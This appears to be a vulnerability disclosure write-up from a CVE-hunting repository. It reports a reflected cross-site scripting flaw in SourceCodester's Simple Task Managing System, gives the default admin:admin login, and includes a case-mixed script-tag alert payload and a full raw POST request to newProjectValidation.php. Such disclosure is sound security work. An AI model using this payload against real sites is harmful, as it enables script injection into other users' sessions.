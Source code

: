 # Simple Task Managing System - XSS3

A vulnerability classified as problematic was found in SourceCodester Simple Task Managing System. This vulnerability affects unknown code. The manipulation of the argument newProjectValidation.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin ----> {ip}/newProjectValidation.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/newProjectValidation.php has XSS

> Payload: "><ScRiPt>alert(1)</sCrIpT>

XSS because $short can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/6.png)

## Payload

```sql
POST /cve/Task%20Managing%20System%20in%20PHP/newProjectValidation.php HTTP/1.1
Host: localhost
Content-Length: 102
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/cve/Task%20Managing%20System%20in%20PHP/newProject.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hvkotkilavedcvtchro67huf9i
Connection: close

short=%22%3E%3CScRiPt%3Ealert%281%29%3C%2FsCrIpT%3E
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/4.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/5.png)
